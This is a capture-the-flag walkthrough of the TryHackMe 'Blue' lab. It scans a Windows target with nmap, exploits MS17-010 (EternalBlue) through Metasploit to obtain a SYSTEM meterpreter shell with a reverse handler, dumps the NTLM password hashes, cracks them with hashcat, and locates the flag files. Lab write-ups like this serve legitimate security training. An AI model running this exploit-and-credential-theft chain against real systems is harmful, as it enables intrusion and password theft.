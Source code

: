 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Metasploit](https://img.shields.io/badge/Needed-Metasploit-orange)](https://www.metasploit.com/)
[![Needed-Hashcat](https://img.shields.io/badge/Needed-Hashcat-lightgreen)](https://hashcat.net/hashcat/)

# Blue

## Reconnaissance
At a first scan with `nmap -sV $TARGET_IP` we notice that the target machine has no open ports, but that's only because it doesn't respond to ICMP packets. From this we can guess we are dealing with a Windows target.<br>
To get a scan despite this, we can add to the command the option `-Pn`:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV -Pn --script vuln 10.10.93.60 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-26 07:35 EST
Nmap scan report for 10.10.93.60
Host is up (0.051s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

As we can see there are several vulnerabilities, but the intended solution seems to be the exploitation of `ms17-010`, so we'll move in this direction.

## Gaining access
Since the vulnerability is a known CVE we'll use Metasploit to exploit it.<br>
After msfconsole has started we have to select the exploit with the command `use`, but we don't know WHAT to use... We need to search the vulnerability with the following command:
```
msf6 > search ms17

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank     Check  Description
   -   ----                                                   ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue               2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1   exploit/windows/smb/ms17_010_eternalblue_win8          2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2   exploit/windows/smb/ms17_010_psexec                    2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3   auxiliary/admin/smb/ms17_010_command                   2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   ...
   ...
```

We will use the first one.<br>
For the exploit to function we need absolutely to set RHOSTS (target machine's IP) and check that LHOST is set to our **tun0** IP. Then we can execute the command `run` or `exploit`:
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.168:4444 
[...]
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

We'll get a `NT AUTHORITY\SYSTEM` meterpreter shell. We can now dump all passwords with the command `hashdump`:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

## Cracking passwords
The next step would be to crack users' passwords, and we can do it by using a powerful util like hashcat. To function hashcat needs a wordlist with the passwords to try, in our case `rockyou.txt`.<br>
The final command will be:

```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/2-Blue]
└─$ hashcat -m 1000 --username pwdhash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

Hashes: 3 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

[...]

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

31d6cfe0d16ae931b73c59d7e0c089c0:                         
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                       
[...]
```

## Flags
For this challenge there are 3 flags hidden in the victim's filesystem, and we are supposed to find them by following some hint... Fortunately we can do better and search for them with a `find` command:
```
meterpreter > find -f flag*txt
   c:\flag.txt (24 bytes)
   c:\Users\Jon\Documents\flag3.txt (37 bytes)
   c:\Windows\System32\config\flag2.txt (34 bytes)
```